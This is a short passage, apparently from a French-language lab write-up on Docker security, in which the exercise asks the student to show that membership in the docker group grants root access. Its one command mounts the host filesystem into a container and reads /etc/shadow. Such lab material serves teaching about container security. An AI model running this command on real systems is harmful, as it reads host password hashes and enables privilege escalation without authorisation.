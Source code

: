 ## Part IV : Docker security

# 1. Le groupe docker

Prouvez que vous pouvez devenir root

la seule commande docker run est celle ci

```
azureuser@cloudtp:~$ docker run --rm -v /:/mnt ubuntu cat /mnt/etc/shadow

```